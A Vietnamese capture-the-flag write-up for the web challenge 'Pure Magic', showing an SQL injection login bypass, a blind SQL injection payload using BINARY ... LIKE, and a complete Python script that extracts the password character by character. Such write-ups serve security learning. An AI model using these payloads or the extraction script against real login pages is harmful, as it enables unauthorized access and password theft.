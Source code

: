 ## Pure Magic ([Link](https://cryptixctf.com/web3))

- Lại là 1 bài sql, tuy nhiên không phải đơn giản như bài đầu nhưng cũng không khó

- OK, bây giờ thử vài payload xem có cái nào hoạt động không

- Sau 1 hồi thử thì mình thấy có payload này hoạt động: `admin' OR '1' = '1'-- -`

- Ký tự `-- -` dùng để *comment* tức là toàn bộ *query* phía sau sẽ trở thành *comment* hết, chúng sẽ không được *server* đọc và thực thi

- 1 vài loại *comment* mình thường dùng:

  - `--`
  - `#`
  - `-- -`
  - `\* *\`

- Vấn đề là khi bypass qua sql của đề thì chả có gì cả ngoài vài dòng *troll*, vậy là *password* không thể dump trực tiếp tự *database*, ít nhất là mình nghĩ là vậy

- Bây giờ mình sử dụng kỹ thuật *blind sql* để dò ra *password* của đề

- Mình sẽ viết 1 *tool* nhỏ đề dò ra *password* của đề, mình sẽ không giải thích *tool*, tuy nhiên mình sẽ nói qua *payload* mình sử dụng để dò *password*

- Payload: `admin' OR BINARY password LIKE 'B%'-- -`

- Đoạn *LIKE 'B%'* dùng để xác thực xem *password* của nó có bắt đầu bằng chữ *B* hay không. Ký tự *%* dùng để đại diện cho tất cả các ký tự tiếp theo. Nếu đúng là bắt đầu bằng chữ *B* thì ta sẽ có 1 mệnh đề đúng. Vậy câu query sẽ hoạt động, *server* tiếp tục xuất ra đoạn troll kia. Nếu sai, thì *server* sẽ hiện thị dòng *Please just stop guessing.* Còn *BINARY* dùng để phân biệt chữ hoa và chữ thường

- Cứ như vậy, nếu đúng ta sẽ thêm ký tự đó vào *listpass* lưu sẵn, sai thì bỏ qua

- Ngoài dùng *LIKE* thì còn rất nhiều hàm khác có thể dùng như *SUBSTRING*, ...

- Còn đây là tool của mình

  ```python
  import requests
  from string import *
  import re, sys
  
  char = ascii_lowercase + ascii_uppercase + digits + '_'
  
  url = 'https://cryptixctf.com/web3/login.php'
  
  listpass = ''
  
  no = []
  
  flag = 0
  
  while True:
  	for x in char:
  
  		print('trying with: ', listpass+x)
  
  		data = {
  			"pwd" : "admin' OR BINARY password LIKE '"+listpass+x+"%'-- -"
  		}
  
  		response = requests.post(url, data = data)
  
  		fin = re.findall('Please just stop guessing.', response.text)
  
  		if fin == no:
  			listpass += x
  			flag = 0
  			break
  		else:
  			flag += 1
  		if flag == 63:
  			print('\n\nSuccess with password: ', listpass)
  			sys.exit()
  
  
  ```

  
